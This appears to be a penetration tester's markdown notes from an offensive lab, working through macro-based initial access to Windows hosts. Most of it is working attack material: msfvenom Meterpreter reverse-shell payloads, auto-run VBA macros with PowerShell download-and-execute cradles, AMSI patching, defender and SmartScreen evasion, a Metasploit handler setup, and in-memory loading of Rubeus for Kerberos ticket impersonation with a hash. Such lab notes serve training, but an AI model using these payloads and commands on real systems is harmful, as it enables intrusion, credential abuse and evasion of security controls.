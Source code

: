 ## Metasploit framework notes

#### Auto Run Script

```
set AutoRunScript migrate -n explorer.exe
```

## msf encoder

```
set enablestageencoding true
set stageencoder x86/xor_dynamic
```

### Ch1 Notes

### (FAILED)Initial access failed method 1-triggle asmi bypass, add marco payload xor 
1. Identify the web port on 192.168.49.121  allowing file upload. Upload a doc file which allow which allow [ping marco](/msf/ping.vba) command to verify the target allowing code execution though marco 

2. Create stageless tcp raw payload 
```
sudo msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=192.168.49.141  LPORT=443 -f raw -o tcp.bin
```
3. Patch the payload
- **encode the payload with custom wrapper to create exe to bypass defender**
- **append microsoft binary meta data to the payload to bypass smart screen**

4. Create malicious marco with amsi bypass and download our malicou payload to remote host, 
- encode the marco content with powershell  [marco  xor Payload encoder](/msf/payloadencoder.ps)
- [test.txt](/msf/test.txt) contains amsi powershell patching and web invoke request to download our encoded and digitally signed payload
- Craft the [marco](/msf/asmibypasswithxor.vba) and attached to a doc file
5. No call back, no download log, maybe the powershell is not allowed??

### (FAILED)Initial access failed method 2-embed vba shell code in the doc file

1. Create x86 staged payload
```
msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.49.141 LPORT=443 EXITFUNC=thread -f vbapplication
```

2. embed into the [macilous marco](/msf/shellcode.vba) using VirtualAlloc, RtlMoveMemory, CreateThread method
3. lauch msf6

```
set payload windows/meterpreter/reverse_https
set enablestageencoding true
set stageencoder x86/xor_dynamic
run -j
```
4. Not working... maybe the shell code get flaged?

### (FAILED)Initial access failed method 3-embed powershell download cradle to execute payload
```
Sub MyMacro()
    Dim str As String
    str = "powershell (New-Object System.Net.WebClient).DownloadString('http://192.168.49.141/run.ps1') | IEX"
    Shell str, vbHide
End Sub
Sub Document_Open()
    MyMacro
End Sub
Sub AutoOpen()
    MyMacro
End Sub

```

#### shell downloadn works so far

```
 Dim str As String
    str = "powershell -c Start-bitstransfer -source http://192.168.49.141:80/newbeacon.exe -destination C:\\Windows\\Tasks\\newbeacon.exe"
    Shell str, vbHide
```
#### Worksss!! Marco Initial access works
1. Create [shell code runner](/msf/shellrunner.vba) VBA Marco using CreateThread-> execute the shell code, VirtualAlloc-> allocate memeory space for shell code, RtlMoveMemory->copy shell code into memory space

the staged VBA shell code can be generated from msfvenom command 
```
msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.49.141 LPORT=443 EXITFUNC=thread -f vbapplication
```

2. Copy VBA shell code into the [C# caesar cipher](/msf/caesar_cipher.cs) to encode the shell code, compile, run the program and copy output back to VBA marco 
3. Set up the msf c2
```
msfconsole
use exploit/multi/handler
set payload windows/meterpreter/reverse_https
set lhost yourip
set lport 443
set enablestageencoding true
set stageencoder x86/xor_dynamic
set AutoRunScript migrate -n explorer.exe
run -j
```

####Get into 192.168.141.122 machine, hostname: client

Domain Admins: Administrator and pete


## TTPS
scaning
sudo nmap -A -Pn 192.168.120.130-132

Process Migrate
```
meterpreter > execute -H -f notepad
meterpreter > migrate 620
```

HostRecon
```
PS C:\windows\system32\inetsrv> (new-object system.net.webclient).downloadstring('http://192.168.119.120/HostRecon.ps1') | IEX
```

Check APP blocker rules
```
PS C:\windows\system32\inetsrv> Get-ChildItem -Path HKLM:\SOFTWARE\Policies\Microsoft\Windows\SrpV2\Exe
```

Check LSA protection
```
PS C:\windows\system32\inetsrv> Get-ItemProperty -Path HKLM:\SYSTEM\CurrentControlSet\Control\Lsa -Name "RunAsPPL"
```

Run AMSI patching
```
(new-object system.net.webclient).downloadstring('http://192.168.119.120/amsi.txt') | IEX
```

Powershell Load EXE:
```
PS C:\Windows\system32> $data = (New-Object System.Net.WebClient).DownloadData('http://192.168.119.120/Rubeus.exe')
PS C:\Windows\system32> $assem = [System.Reflection.Assembly]::Load($data)
PS C:\Windows\system32> [Rubeus.Program]::Main("s4u /user:web01$ /rc4:12343649cc8ce713962859a2934b8cbb /impersonateuser:administrator /msdsspn:cifs/file01 /ptt".Split())
```

